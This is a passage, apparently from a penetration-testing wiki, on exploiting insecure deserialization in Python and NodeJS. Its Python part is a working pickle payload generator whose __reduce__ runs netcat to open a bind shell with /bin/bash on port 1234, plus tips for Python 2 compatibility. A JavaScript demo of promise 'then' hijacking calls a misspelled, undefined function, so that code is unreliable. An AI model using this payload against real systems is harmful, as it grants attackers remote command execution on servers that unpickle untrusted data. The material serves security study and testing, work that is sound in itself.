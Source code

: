 ```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print(base64.b64encode(pickle.dumps(P())))
```

Before checking the bypass technique, try using `print(base64.b64encode(pickle.dumps(P(),2)))` to generate an object that is compatible with python2 if you're running python3.

<br>

### Yaml **&** jsonpickle

The following page present the technique to **abuse an unsafe deserialization in yamls** python libraries and finishes with a tool that can be used to generate RCE deserialization payload for **Pickle, PyYAML, jsonpickle and ruamel.yaml**:

<br>

### Class Pollution (Python Prototype Pollution)

## NodeJS

<br>

### JS Magic Functions

JS **doesn't have "magic" functions** like PHP or Python that are going to be executed just for creating an object. But it has some **functions** that are **frequently used even without directly calling them** such as **`toString`**, **`valueOf`**, **`toJSON`**.\
If abusing a deserialization you can **compromise these functions to execute other code** (potentially abusing prototype pollutions) you could execute arbitrary code when they are called.

Another **"magic" way to call a function** without calling it directly is by **compromising an object that is returned by an async function** (promise). Because, if you **transform** that **return object** in another **promise** with a **property** called **"then" of type function**, it will be **executed** just because it's returned by another promise. _Follow_ [_**this link**_](https://blog.huli.tw/2022/07/11/en/googlectf-2022-horkos-writeup/) _for more info._

```javascript
// If you can compromise p (returned object) to be a promise
// it will be executed just because it's the return object of an async function:
async function test_resolve() {
  const p = new Promise((resolve) => {
    console.log("hello");
    resolve();
  });
  return p;
}

async function test_then() {
  const p = new Promise((then) => {
    console.log("hello");
    return 1;
  });
  return p;
}

test_ressolve();
test_then();
//For more info: https://blog.huli.tw/2022/07/11/en/googlectf-2022-horkos-writeup/
```
